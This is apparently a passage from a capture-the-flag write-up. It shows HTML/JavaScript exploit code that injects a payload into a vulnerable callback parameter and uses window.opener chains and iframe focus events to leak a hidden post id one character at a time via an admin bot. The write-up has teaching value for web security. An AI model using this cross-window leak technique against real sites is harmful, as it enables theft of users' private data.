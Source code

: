 The fourth one contains the main logic. This file opens the page with the post id within the previous *(`c.html`)* document. Then that document executes js to leak the homepage's post id char by char.

```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));

    const main = async () => {
        await sleep(1000);

        // 32 is the start of the href url that contains id
        // 36 is the len of the id
        for (var i = 32; i <= 32+36+1; i++) {
            // I'm explainig this payload below
            PAYLOAD = `opener[opener.opener.document.body.children[1].childNodes[1].children[0].children[0].children[3].children[0].children[0].children[0].href[${i}]].focus`;
            // change c.html page's location to the vulnerable page that executes callback
            opener.location.replace(`http://localhost:12345/post/?id=24bc9bc5-844c-4f37-8330-f3dbadd2e3a3?callback=${PAYLOAD}%23%00`);
            // check the next character every 1.5 secs so that the page have 1.5 sec to load.
            await sleep(1500);
        }
    }

    main();
</script>
```

I try to explain the huge `PAYLOAD` variable here.

Firstly, `opener.opener.document.body.children[1]....href[${i}]` traverses through the homepage `a.html` *(`a.html` is opener.opener of `c.html`)* and finds our `<a>` tag. Then it takes the i*th* symbol from its `href` attribute.

Secondly, `opener[..].focus` calls `focus()` on a character within `b.html` *(opener of `c.html`)* via the callback. Because every character has its own iframe with the `name=character` attribute *(you can access an html tag from js just with its name attribute)* `b.html` page can detect what character caused the `onfocus()` event.

Now we have everything to solve the task. I'll host these html pages on my server via php.

```sh
php -S host:port
```

If we send our url (`https://host/a.html`) to the bot we can see a part of the id in the logs:

![img](/images/E8ToEFojmsZu5j_q4dI-WuzmXxeX6zFL)

To get the next part of the id, we need to increase the start number of the href url and send the link to the bot again.

Using the post id, we can get the flag:

![img](/images/UNfW-txZSv3nfAUeVSEFZzH_n03EmUND)
